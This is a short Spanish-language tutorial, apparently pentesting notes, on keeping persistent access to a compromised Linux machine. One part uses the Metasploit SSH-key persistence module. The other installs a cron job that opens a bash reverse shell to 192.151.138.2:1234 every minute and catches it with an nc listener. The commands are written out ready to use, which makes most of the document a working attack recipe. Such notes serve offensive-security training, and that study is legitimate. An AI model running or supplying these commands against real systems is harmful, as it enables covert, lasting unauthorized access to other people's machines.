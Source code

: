 <h1 align="center">PERSISTENCIA EN LINUX</h1>

## **Persistencia a través de SSH**

Una vez que hemos conseguido vulnerar una máquina Linux, podemos establecer persistencia a través de SSH utilizando Metasploit, siempre y cuando tengamos permiso para editar la carpeta .ssh del usuario.

- `use post/linux/manage/sshkey_persistence.`

Este módulo generará automáticamente una clave pública y privada para todos los usuarios del sistema.Establece la opción CREATESSHFOLDER en true para que el módulo cree la carpeta .ssh si no existe y guarde las claves allí.  

El módulo generará las claves y te indicará dónde se guarda la clave privada del usuario actual en tu máquina local

## **Persistencia a través de Cron Jobs**

Si has conseguido acceso a una máquina Linux con un usuario normal, no podrás modificar el archivo /etc/crontab. Sin embargo, puedes modificar el archivo crontab del usuario actual utilizando el comando crontab -l.

Vamos a añadir una tarea cron que ejecute una reverse shell cada minuto.

- `echo "\* \* \* \* \* /bin/bash -c '/bin/bash -i >& /dev/tcp/192.151.138.2/1234 0>&1'" > cron`
- `crontab -i cron`
- `crontab -l`

Deberías ver la línea que ejecuta la reverse shell cada minuto, establece la escucha y conseguirás la shell

- `nc -lvnp 1234`
